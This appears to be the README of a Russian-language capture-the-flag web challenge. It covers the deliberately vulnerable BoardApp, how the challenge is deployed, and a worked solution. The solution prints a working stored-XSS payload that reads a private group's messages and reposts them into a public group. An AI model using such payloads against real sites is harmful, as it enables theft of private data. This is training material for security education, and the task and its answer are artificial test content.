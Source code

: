 # XSS

## Описание

Автор: Трофимов Д.А. (happypiece), Волгин И.А. (furlupe)  
Название: 3ch  
Лицензия: MIT License  
Сложность: Hard  
Описание: создание xss-нагрузки для кражи флага из приватной группы
Теги: web, xss  

## Легенда

Вам стало известно, что в одной из закрытых групп приложения BoardApp©™ сотрудники некоторой сети ресторанов быстрого питания "Вкус** * *очка" распространяют промокоды на бесплатный белковый напиток.  
Также, из слитых ранее промокодов, выяснилось, что все они пересылаются в виде HITS{promocode_name}.  
Представители оргагнизации с аббревиатурой HITS давать комментарии отказались, но вполне вероятно, что участники интересующей нас группы также часто посещают тематическое сообщество, связанное с информационной безопасностью.  
Ваша задача: покушать нахаляву, а для этого необходимо украсть промокод, находящийся в одной из закрытых групп. По неподтвержденным данным, сервис был написан дилетантами, что позволяет предположить, что в нем найдется пара уязвимостей.  

## Флаг

HITS{promocode_name}  
Лежит в переменной среды CTF_FLAG (указывается в docker-compose.yml)

## Развертывание

**Внезапно: `docker compose up`**  
Задача поднимается в трех контейнерах: собственно, уязвимое приложение, его бд, и сервис, который раз в n секунд (указывается также в компоузе) открывает приложение в хэдлесс-браузере, логинится и идет посмотреть на страничку указанной группы, при этом исполняя находящийся там xss.  
**Обратите внимание, что докер-образ клиента, исполняющего xss-нагрузку, весит 2ГБ GL;HF**  
Я честно пытался его уменшить (раньше он весил ~3.2), но если убрать что-то еще то он отказывается работать (мб мне просто не повезло).  
*Кроме того, так как задача на stored xss, участники имеют возможность мешать друг другу, поэтому по-хорошему нужны индивидуальные инстансы.*

## Решение

1. Из тега задачи и функционала сайта, нетрудно предположить, что уязвимость кроется в функционале сообщений в группах.
2. Проверим наше предположение, отправив сообщение с произвольной нагрузкой, например: <script>alert("yo mama obama")</script>
3. Убедившись, что нагрузка выполняется, можно приступать к планированию настоящей атаки. Из условия задачи легко сделать вывод, что ресурс, который посещают участники интересующей нас закрытая группы — сообщество с названием "Cybersafety enjoyers club", при этом закрытых групп всего две.
4. Приходим к выводу, что нам необходимо разместить нагрузку в уже упомянутой группе, при этом, будучи исполненной пользователем с правами доступа к целевой группе, скрипт должен получать содержание ее сообщений и затем каким-то образом доставлять эти сообщения в наши маленькие ручки.
5. Скорее всего, в процессе написания нагрузки, придется столкнуться с тем, что максимальная длина сообщения — 320 символов, что не позволяет написать сколь угодно сложный (и длинный) скрипт. Проблему можно решить, разбивая нагрузку на функции и отправляя их отдельными сообщениями, а можно вот так:
```html
<script>
  window.onload = () => {
    var x = $("#message-container").clone();
      x.load(`${window.location.protocol}//${window.location.host}/board/board/7fc0c328-c1f1-438f-afc5-bb13021ed832 p:contains("HITS")`, () => {
      $("#message-input").val(x.text());
      $("[send]").trigger("click");
    });
  };
</script>
```
После удаления пробелов и отступов получаем сообщение длиной ~280 символов:
```html
<script>window.onload=()=>{var x = $("#message-container").clone();x.load(`${window.location.protocol}//${window.location.host}/board/board/7fc0c328-c1f1-438f-afc5-bb13021ed832 p:contains("HITS")`,()=>{$("#message-input").val(x.text());$("[send]").trigger("click");});};</script>
```  
(при желании, можно, конечно, еще короче, но желания у меня нет)  
6. Представленный скрипт, будучи исполненным в браузере пользователя, имеющего доступ к целевой группе, отправляет в открытую группу, где находится нагрузка, содержание интересующего нас сообщения.  
7. Таким образом, для решения задачи необходимо отправить эту нагрузку, подставляя в строку поиска айдишник закрытых групп, коих, как говорилось, всего две (в примере используется нужный).
